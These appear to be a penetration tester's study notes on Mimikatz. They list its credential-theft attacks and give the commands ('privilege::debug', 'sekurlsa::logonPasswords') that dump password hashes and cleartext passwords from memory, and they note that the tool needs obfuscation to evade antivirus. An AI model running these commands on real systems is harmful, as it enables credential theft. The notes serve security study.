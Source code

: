 Used to view and steal creds, generate Kerberos tickets, and leverage attacks.  This will almost always be picked up by AV now so it would need to be obfuscated.
Can also dump Credentials store in memory
Has a number of different attacks: cred dumping, pass the hash, over pass the hash, pass the ticket, silver ticket, and golden ticket, etc

mimikatz github
	Get gentilkiwi/mimikatz

  First thing, set privilege mode to debug
	`mimikatz.exe` in whatever folder it was extracted in
	`privilege::`    - This will show what modules are available
	`privilege::debug` (should spit out privilege '20' OK

`sekurlsa::` will show us what sekurlsa modules are available

`sekurlsa::logonPasswords` will spit out a bunch of password information in their different hash.  This could have cleartext passwords